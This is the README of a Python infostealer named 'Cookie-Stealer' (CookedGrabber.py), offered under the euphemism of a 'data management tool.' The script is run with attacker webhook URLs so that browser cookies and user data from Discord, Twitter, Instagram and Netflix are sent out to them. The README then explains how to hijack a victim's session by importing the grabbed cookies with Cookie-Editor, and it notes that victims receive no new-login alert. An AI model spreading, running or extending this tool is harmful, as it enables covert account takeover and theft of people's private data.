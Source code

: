 # Cookie-Stealer
Introducing my data management tool made in Python that efficiently collects user information from popular websites like Discord, Twitter, Instagram, and Netflix.
# Requirements ⚡
Windows 10 OS only (win32, for x86, x86_64, and arm64 architectures)
Python 3.x (python 3.9 used for the project.)
Modules: $ pip install -r requirements.txt
# How to use ? ❄
You can also run the program by giving several arguments (the webhook(s) link(s)):

py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
🍪Cookies
# What are cookies ?
Cookies are text files with small pieces of data like a username and password that are used to identify your computer as you use a computer network. Specific cookies known as HTTP cookies are used to identify specific users and improve your web browsing experience.

Data stored in a cookie is created by the server upon your connection. This data is labeled with an ID unique to you and your computer.

When the cookie is exchanged between your computer and the network server, the server reads the ID and knows what information to specifically serve to you.

# What are cookies used for ?
Websites use HTTP cookies to streamline your web experiences. Without cookies, you’d have to login again after you leave a site or rebuild your shopping cart if you accidentally close the page. Making cookies an important a part of the internet experience.

# Security breach with cookies
Since the data in cookies doesn't change, cookies themselves aren't harmful. They can't infect computers with viruses or other malware. However, some cyberattacks can hijack cookies and enable access to your browsing sessions.

The server only sends the cookie when it wants the web browser to save it. If you’re wondering “where are cookies stored,” it’s simple: your web browser will store it locally to remember the “name-value pair” that identifies you.

⚠ When you try to connect to an account using cookies it does not even generate a new login request to the server, that mean that the victim does not even receive the email with a new connexion detected. The target don't know that you are connected to the account because the server think it's him !

☢ This reveals major security breaches in general websites and social networks ! ☢

# How to bypass websites with cookies ?
So to use cookies to log into the victim account, you must have a cookies extension. I recommand Cookie-Editor. To bypass website security you must be already connected to your personnal account to generate all cookies needed for the website. After being sure that all default cookies have been generated use your cookies extension to replace your personnal id account cookies with the grabbed victim account cookies.
